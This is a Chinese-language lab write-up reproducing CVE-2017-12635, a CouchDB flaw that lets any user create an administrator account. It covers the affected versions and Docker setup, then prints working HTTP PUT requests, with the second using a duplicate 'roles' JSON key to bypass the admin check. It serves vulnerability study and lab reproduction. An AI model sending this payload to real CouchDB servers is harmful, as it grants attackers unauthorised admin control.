 （CVE-2017-12635）Couchdb 垂直权限绕过漏洞
==========================================

一、漏洞简介
------------

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

二、漏洞影响
------------

小于 1.7.0 以及 小于 2.1.1

三、复现过程
------------

### 环境搭建

    docker-compose build
    docker-compose up -d

环境启动后，访问`http://www.0-sec.org:5984/_utils/`即可看到一个web页面，说明Couchdb已成功启动。但我们不知道密码，无法登陆。

### 漏洞复现

首先，发送如下数据包：

    PUT /_users/org.couchdb.user:vulhub HTTP/1.1
    Host: www.0-sec.org:5984
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 90

    {
      "type": "user",
      "name": "vulhub",
      "roles": ["_admin"],
      "password": "vulhub"
    }

可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色：

![](./.resource/(CVE-2017-12635)Couchdb垂直权限绕过漏洞/media/rId26.png)

发送包含两个roles的数据包，即可绕过限制：

    PUT /_users/org.couchdb.user:vulhub HTTP/1.1
    Host: www.0-sec.org:5984
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 108

    {
      "type": "user",
      "name": "vulhub",
      "roles": ["_admin"],
      "roles": [],
      "password": "vulhub"
    }

成功创建管理员，账户密码均为`vulhub`：

![](./.resource/(CVE-2017-12635)Couchdb垂直权限绕过漏洞/media/rId27.png)

再次访问`http://www.0-sec.org:5984/_utils/`，输入账户密码`vulhub`，可以成功登录：

![](./.resource/(CVE-2017-12635)Couchdb垂直权限绕过漏洞/media/rId28.png)

参考链接
--------

> https://vulhub.org/\#/environments/couchdb/CVE-2017-12635/
